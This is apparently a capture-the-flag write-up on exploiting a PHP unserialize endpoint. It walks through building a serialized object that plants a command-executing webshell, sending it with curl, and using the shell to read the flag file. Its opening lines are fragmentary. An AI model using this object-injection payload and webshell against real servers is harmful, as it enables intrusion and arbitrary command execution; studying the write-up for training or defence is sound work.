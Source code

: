 # Web Exotic Attacks Handy Tool

First of all Manny ... and it was guess my name so a fast browsing it came to Manny Iscusitul, submitting it revealed: **backup.zip**

We test:

```graphql
?tool=unserialize&input=O:4:"Test":0:{}
```

And get:

```makefile
object(__PHP_Incomplete_Class)#1 (1) { ["__PHP_Incomplete_Class_Name"]=> string(4) "Test" }
```

- This confirms PHP unserialize is active, and no filtering is in place.

### Write a Backdoor

Create a custom class locally:

```php
<?php
class PHPClass {
    public $condition = true;
    public $prop;

    public function __construct() {
        $this->prop = "system('echo <?php system(\$_GET[\"cmd\"]); ?> > backdoor.php');";
    }
}

echo urlencode(serialize(new PHPClass()));
?>
```
Save this as `payload.php` and run: **php payload.php > payload.txt**

Send the payload to the server: `curl "http://141.85.224.99:8004/?tool=unserialize&input=$(cat payload.txt)"`

This writes a webshell to: **http://141.85.224.99:8004/backdoor.php**

We confirm code execution:

```bash
http://141.85.224.99:8004/backdoor.php?cmd=ls /
→ Output:

bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
````

Then:

```bash
http://141.85.224.99:8004/backdoor.php?cmd=ls /home
→ ctf

http://141.85.224.99:8004/backdoor.php?cmd=ls /home/ctf
→ flag.txt

http://141.85.224.99:8004/backdoor.php?cmd=cat /home/ctf/flag.txt
→ SSS{y0u_g0t_a_r3v3rs3_sh3ll_didnt_y0u_l1ttl3_pr1ck}
```

Remove your shell: `http://141.85.224.99:8004/backdoor.php?cmd=rm backdoor.php`
